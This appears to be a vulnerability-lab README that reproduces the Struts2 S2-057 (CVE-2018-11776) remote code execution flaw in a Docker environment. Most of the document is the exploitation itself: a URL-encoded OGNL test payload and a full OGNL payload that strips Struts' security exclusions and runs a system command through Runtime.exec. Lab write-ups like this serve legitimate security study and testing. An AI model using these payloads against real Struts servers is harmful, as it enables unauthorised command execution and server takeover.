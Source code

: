 # Struts2 S2-057 Remote Code Execution Vulnerablity(CVE-2018-11776)

Affected Version: <= Struts 2.3.34, Struts 2.5.16

Details:

 - https://cwiki.apache.org/confluence/display/WW/S2-057
 - https://lgtm.com/blog/apache_struts_CVE-2018-11776
 - https://xz.aliyun.com/t/2618
 - https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## Setup

Start the Struts 2.3.34 environment:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/showcase/` and you will see the Struts2 test page.

## Expliot

S2-057 requires the following conditions:

  - `alwaysSelectFullNamespace` is true
  - The action element does not have the namespace attribute set, or a wildcard is used

The namespace will be passed by the user from uri and parsed as an OGNL expression, eventually cause remote code execution vulnerablity.

Payload:

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```

![](1.png)

It can be seen that the result of 233*233 has been returned in the Location header.

Use payload from [S2-057 vulnerability analysis and POC](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg):

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

Result:

![](2.png)
